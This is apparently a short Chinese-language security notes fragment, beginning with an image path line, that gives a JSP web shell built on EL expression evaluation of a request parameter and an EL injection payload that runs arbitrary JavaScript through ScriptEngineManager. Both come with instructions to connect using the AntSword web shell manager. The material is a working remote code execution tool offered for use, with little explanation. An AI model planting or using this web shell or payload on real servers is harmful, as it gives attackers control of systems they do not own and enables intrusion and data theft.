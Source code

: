 ### EL表达式Shell

```
<%
out.print(org.apache.jasper.runtime.PageContextImpl.proprietaryEvaluate(request.getParameter("ant"), String.class, pageContext, null));
%>
```

打开蚁剑，jspjs类型，el编码器，一键连接。

![image-20230802163427699](./assets/image-20230802163427699.png)



## 表达式注入下的利用

### EL

```
${''.getClass().forName("javax.script.ScriptEngineManager").newInstance().getEngineByName("js").eval(code)}
```

jspjs类型，选择el编码器，一键连接
